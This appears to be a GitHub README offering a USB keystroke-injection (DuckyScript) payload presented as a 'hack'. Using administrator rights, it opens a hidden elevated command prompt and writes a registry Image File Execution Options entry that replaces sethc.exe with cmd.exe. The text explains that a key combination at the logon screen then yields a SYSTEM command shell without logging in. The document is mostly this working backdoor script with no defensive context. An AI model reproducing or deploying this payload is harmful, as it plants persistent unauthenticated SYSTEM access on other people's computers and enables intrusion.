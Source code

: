 # DISCLAIMER
***
This command prompt will close automatically due to the way this hack works (after about 3 minutes or so)  
This hack does require pre work and does require administrator privileges to modify the registry.  

### Pre work
***

* DELAY 400 
* ESCAPE 
* DELAY 200 
* CONTROL ESCAPE
* DELAY 500
* STRING cmd /Q /D /T:7F /F:OFF /V:ON /K
* DELAY 500
* CTRL-SHIFT ENTER
* DELAY 1000
* ALT C
* DELAY 750
* ALT SPACE
* STRING M
* DOWNARROW
* REPEAT 100
* ENTER
* DELAY 400
* STRING reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
* ENTER
* STRING exit

Ok so that's the pre work done now when the users machine is logged off and you want to be able to execute commands or even if you just want to be able to execute commands as the system not as administrator all you need to do is press  
 Left Alt + Left Shift + Print Screen.  